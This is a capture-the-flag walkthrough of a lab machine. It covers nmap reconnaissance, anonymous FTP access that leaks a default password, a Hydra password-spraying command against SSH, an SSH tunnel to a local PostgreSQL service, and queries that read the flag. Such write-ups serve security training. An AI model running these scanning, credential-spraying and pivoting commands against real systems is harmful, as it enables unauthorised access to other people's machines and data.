







# Reconnaissance

Let's start by using nmap to detect open **TCP** ports on the victim machine

```bash
sudo nmap -sS -p- --open --min-rate 5000 10.129.30.108 -vvv -n -Pn -oG allports.txt
```

```bash
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
```

As we can see, we've detected two services: **FTP** and **SSH**

Now we're going to perform service version detection on the open ports

```bash
nmap -sVC -p21,22 10.129.30.108 -oN portscan.txt
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# Anonymous FTP Login

Thanks to this information, we were able to determine that the FTP service allows **anonymous login**

So, let's connect!



Within the FTP service, using the `ls` command, we can identify a directory stored on the server

Let's see what's inside

```bash
cd mail_backup
```

Let's run the `ls` command again

```bash
ls
```



Let's download these two files to see what's inside them

```bash
prompt
```

```bash
mget *
```

```bash
local: password_policy.pdf remote: password_policy.pdf
229 Entering Extended Passive Mode (|||56800|)
150 Opening BINARY mode data connection for password_policy.pdf (58899 bytes).
100% |***********************************************************************************************************************************************| 58899        2.95 MiB/s    00:00 ETA
226 Transfer complete.
58899 bytes received in 00:00 (2.10 MiB/s)
local: welcome_28112022 remote: welcome_28112022
229 Entering Extended Passive Mode (|||53801|)
150 Opening BINARY mode data connection for welcome_28112022 (713 bytes).
100% |***********************************************************************************************************************************************|   713      543.97 KiB/s    00:00 ETA
226 Transfer complete.
713 bytes received in 00:00 (81.01 KiB/s)
```
# Credentials Found

Once the files have been downloaded, we'll use `open` and `cat` `open` for the file with the **.pdf** extension

```bash
open password_policy.pdf
```


Taking a closer look at the password policy, we see a line that says **"For example the default password of “funnel123#!#” must be changed immediately."**

Now let's take a look at the other downloaded file

```bash
cat welcome_28112022
```



It looks like we've gained some users...

# Brute-Force Attack with Hydra

Now we'll use `Hydra` to try to authenticate with the **SSH** or **FTP** service using the credentials we found

But first, let's create a wordlist with the users we found

```bash
nvim users.txt
```


Now we're ready to use `Hydra`!

```bash
hydra -L users.txt -p 'funnel123#!#' 10.129.30.108 ssh
```



It looks like we were able to find a username and password for the SSH service

Now all we have to do is log in



# Local Services

Once we're in, let's see which services are running locally on the victim machine

```bash
netstat -tlnp
```

```bash
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:44737         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

It looks like the machine is running something on port 5432

Let's see which service is running on this port

```bash
netstat -tl
```

```bash
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp        0      0 localhost:postgresql    0.0.0.0:*               LISTEN     
tcp        0      0 localhost:44737         0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:ftp                [::]:*                  LISTEN     
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN
```

We were able to detect the service!

The victim machine is running **PostgreSQL** locally

Unfortunately, the victim machine does not have the tool needed to communicate with this service, and we don't even have elevated privileges to download this tool
so we will need to set up a **Local Port Forwarding** via **SSH**

# Tunneling

```bash
ssh -L 1234:localhost:5432 christine@10.129.30.108
```

When you run this command, the **SSH** client will establish a secure connection to the remote **SSH** server,
and it will listen for incoming connections on the local port **1234** . When a client connects to the local port,
the **SSH** client will forward the connection to the remote server on port **5432** . This allows the local client to
access services on the remote server as if they were running on the local machine.
In the scenario we are currently facing, we want to forward traffic from any given local port, for instance
1234 , to the port on which PostgreSQL is listening, namely 5432 , on the remote server. We therefore
specify port 1234 to the left of localhost , and 5432 to the right, indicating the target port

Now, to check if it worked correctly, let's use `nmap`

```bash
nmap -sV -p1234 localhost
```

```bash
PORT     STATE SERVICE    VERSION
1234/tcp open  postgresql PostgreSQL DB 15.0 - 15.1
```

And it looks like the tunnel worked properly

# PostgreSQL Query

Now we'll use the `psql` utility to connect to the **PostgreSQL** service

```bash
psql -U christine -h 127.0.0.1 -p 1234
```

Now that we're in, let's list the databases using `\list`

```bash
\list
```



Now, to use the database of our choice, we simply use `\c` (database name)

In this scenario, I'm going to use **secrets** because it's the one that stands out the most

```bash
\c secrets
```

Now the next step would be to list the tables in the database, to do that we'll use `\dt`

```bash
\dt
```



And as a final step, we'll list the information contained in that table. To do this, we'll use `SELECT * FROM (table name);`

```bash
SELECT * FROM flag;
```

And that's how we got the flag, so we're done with this machine!
